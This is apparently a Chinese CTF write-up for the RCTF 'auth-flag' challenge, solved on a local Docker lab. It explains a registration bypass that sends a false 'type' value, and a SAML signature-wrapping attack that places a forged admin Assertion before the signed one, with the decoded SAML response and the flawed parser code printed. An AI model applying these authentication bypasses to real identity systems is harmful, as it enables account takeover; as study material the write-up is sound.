








## 一、环境搭建

在自己的虚拟机或者本地 安装docker 或者docker-desktop；然后来到有docker-compose.yaml文件的目录下；大家记得改config的配置改成自己的主机号；也就是把所有的auth-flag.rctf.rois.team字样替换成你的ip；测了一下，用exp跑的话可以不用改这里，但是用手工的话还是要改；



使用命令docker compose up -d就可以了。然后docker ps一下看看是哪些端口；



如果有占用的端口，大家可以自己改，docker-compose.yaml文件里面的端口是80，改成你没占用的端口，然后idp- portal 和sp-flag里面的dockerfile文件把端口换了就可以了，一般来说左边那个是你的外部映射端口比如80:80左边的80是你的主机端口，右边是容器内端口，不动它；然后我们访问这两个端口就可以了；

## 二、开始做题

```python
@app.route('/admin')
def admin():
    if 'email' not in session:
        return redirect(url_for('saml_login'))

    if session.get('email') != 'admin@rois.team':
        return render_template('error.html', error='Insufficient permissions, admin access only'), 403

    return render_template_string(os.getenv("FLAG","RCTF{test_flag}"))
```

在app.py文件中有这样一行，验证信息必须是admin@rois.team；



然后author的 控制器 里面是这样写的，看了下其他大佬的思路

**这⾥⽤了 parseInt(type) = 0 来判断是否是管理员注册。parseInt(false) -> NaN， NaN**

**\= 0 为 false，因此发送 {"type": false} 可以绕过邀请码检查。MySQL 的 TINYINT 字**

**段将 false 存储为 0 ，从⽽注册为 Admin；** 也可以用字符串绕过0x10就可以绕过验证码；



随便写点东西在注册页面，然后直接改type，然后发包后发现是302，直接用账号密码登录就可以了；登陆进去后点那个getflag就可以然后抓包给repeater发送就可以得到一个表单；



可以看到这里我的action其实是有问题的，本地复现的时候没有改那个config的文件所以指向的还是比赛时的环境，这一串base64解码后就可以得到SAML的一个响应，给大家粘贴出来看看；

```text
<?xml version="1.0" encoding="UTF-8"?>
<samlp:Response
    xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
    xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
    ID="_b874a3bbc99d318fab9ef83aacdad4f2faea14001b"
    Version="2.0"
    IssueInstant="2025-11-22T07:02:45.542Z"
    Destination="yourown-ip/saml/acs"
>
    <saml:Issuer>yourown-ip</saml:Issuer>
    <samlp:Status>
        <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    </samlp:Status>

    <saml:Assertion
        xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        Version="2.0"
        IssueInstant="2025-11-22T07:02:45.542Z"
    >
        <saml:Issuer>yourown-ip</saml:Issuer>
        <saml:Subject>
            <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">admin@rois.team</saml:NameID>
            <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml:SubjectConfirmationData
                    NotOnOrAfter="2025-11-22T07:07:45.542Z"
                    Recipient="yourown-ip/saml/acs"
                />
            </saml:SubjectConfirmation>
        </saml:Subject>
        <saml:Conditions
            NotBefore="2025-11-22T07:02:45.542Z"
            NotOnOrAfter="2025-11-22T07:07:45.542Z"
        >
            <saml:AudienceRestriction>
                <saml:Audience>yourown-ip/</saml:Audience>
            </saml:AudienceRestriction>
        </saml:Conditions>
        <saml:AuthnStatement
            AuthnInstant="2025-11-22T07:02:45.542Z"
            SessionIndex="_9618567f714b194bd8e92bd3489ac6371d423d7ec5"
        >
            <saml:AuthnContext>
                <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
            </saml:AuthnContext>
        </saml:AuthnStatement>
        <saml:AttributeStatement>
            <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>2</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="username" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>RCTFer</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="email" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>rctf@example.com</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="displayName" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>xlxl</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>user</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="department" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>IT</saml:AttributeValue>
            </saml:Attribute>
        </saml:AttributeStatement>
    </saml:Assertion>

    <saml:Assertion
        xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        ID="_6f4b5122b862fa7521abf81bf910600cae4ea8e458"
        Version="2.0"
        IssueInstant="2025-11-22T07:02:45.542Z"
    >
        <saml:Issuer>yourown-ip</saml:Issuer>
        <Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
            <SignedInfo>
                <CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
                <SignatureMethod Algorithm="http://www.w3.org/2001/04/xmldsig-more#rsa-sha256"/>
                <Reference URI="#_6f4b5122b862fa7521abf81bf910600cae4ea8e458">
                    <Transforms>
                        <Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
                        <Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
                    </Transforms>
                    <DigestMethod Algorithm="http://www.w3.org/2001/04/xmlenc#sha256"/>
                    <DigestValue>cNx7300GJrVHbBLxxyNBijHk2tTO2bNx66ECCV85jb0=</DigestValue>
                </Reference>
            </SignedInfo>
            <SignatureValue>
                fRK0gPrFJ+cu7DDIZOrk+DMe5Tslc4533yk9harOrpV9BDTVmbPYUAyA1FNjQAD4iPABXGNFCjxjMYatdfNpevAt/n2LxWXOt/chSX0hn9W8MVq4z2lr3BG5wm35CqvRn/h2RdUF4wHQ9HQwIoZwdzN2mDtUyASdl/mnqO5zGRiPk8wlrHEZXoKTBBelBWm7NdZbZIwfO4TdKZIxMzECwZpqQXHtpUQff0aeI+E9bmB2MQzDzRNiY0RDKoYSyB0b9PrLGsd2v9Iyfz2e2QVzPFZ12CXjNcWq17inF/FoYM6hOE1y7Sl+9fo8vyVNTkCQg0aVajVvkMFp9to7PyEtTg==
            </SignatureValue>
        </Signature>
        <saml:Subject>
            <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">rctf@example.com</saml:NameID>
            <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml:SubjectConfirmationData
                    NotOnOrAfter="2025-11-22T07:07:45.542Z"
                    Recipient="yourown-ip/saml/acs"
                />
            </saml:SubjectConfirmation>
        </saml:Subject>
        <saml:Conditions
            NotBefore="2025-11-22T07:02:45.542Z"
            NotOnOrAfter="2025-11-22T07:07:45.542Z"
        >
            <saml:AudienceRestriction>
                <saml:Audience>yourown-ip/</saml:Audience>
            </saml:AudienceRestriction>
        </saml:Conditions>
        <saml:AuthnStatement
            AuthnInstant="2025-11-22T07:02:45.542Z"
            SessionIndex="_9618567f714b194bd8e92bd3489ac6371d423d7ec5"
        >
            <saml:AuthnContext>
                <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
            </saml:AuthnContext>
        </saml:AuthnStatement>
        <saml:AttributeStatement>
            <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>2</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="username" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>RCTFer</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="email" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>rctf@example.com</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="displayName" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>xlxl</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>user</saml:AttributeValue>
            </saml:Attribute>
            <saml:Attribute Name="department" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
                <saml:AttributeValue>IT</saml:AttributeValue>
            </saml:Attribute>
        </saml:AttributeStatement>
    </saml:Assertion>
</samlp:Response>
```

这里如果不了解SAML机制可以看看这篇   [深入浅出SAML认证机制：原理与基于python的demo实现大家好！今天我们要聊一个听起来很"高大上"的话题 - SA - 掘金](https://juejin.cn/post/7404777095622492170 "深入浅出SAML认证机制：原理与基于python的demo实现大家好！今天我们要聊一个听起来很\"高大上\"的话题 - SA - 掘金")

1.  用户试图登录 SP 提供的应用。
2.  SP 生成 SAML Request，通过浏览器重定向，向 IdP 发送 SAML Request。
3.  IdP 解析 SAML Request 并将用户重定向到认证页面。
4.  用户在认证页面完成登录。
5.  IdP 生成 SAML Response，通过对浏览器重定向，向 SP 的 ACS 地址返回 SAML Response，其中包含 SAML Assertion 用于确定用户身份。
6.  SP 对 SAML Response 的内容进行检验。
7.  用户成功登录到 SP 提供的应用。

大致的流程就是这样



这里其实没啥思路了，看了大佬的WP后发现在

sp \- flag/saml2/parser.py 里面有这样一串代码

```python
def get_nameid(self):
    if self.document is None:
        return None

    assertions = self.document.xpath(
        '//saml:Assertion',
        namespaces=self.NAMESPACES
    )

    if not assertions:
        return None

    assertion = assertions[0]
    nameid_nodes = assertion.xpath(
        './/saml:NameID',
        namespaces=self.NAMESPACES
    )

    if nameid_nodes:
        return nameid_nodes[0].text

    return None
```

验证器确保有签名并且合法，但是不校验⽆签名的Assertion，并且只取第一个进行解析；

在合法Assertion前加⼊伪造Assertion即可当然，这里有个小细节在于xml这里我是格式化了的，真实得到的实际上只有一行，被压缩了的；这里只需要伪造一个Assertion并且邮箱是admin@rois.team就行了；插入后把最终的xml压缩成一行（避免base64编码时空格造成影响）然后进行base64编码；最后得到payload；使用hackbar进行传参

最终得到的flag是RCTF{test\_flag}



和exp跑出来的一样；这里大家可以看看SU的exp，这里借鉴了一下；

## 三、总结

这道题主要考的SAML的机制原理，还是挺重要的；为以后的学习还是要去多学习一下。路漫漫其修远兮，吾将上下而求索。经过这次RCTF还是发现有很多欠缺需要去学习；

以上环境均在靶机内实现，对实际环境不造成任何影响。
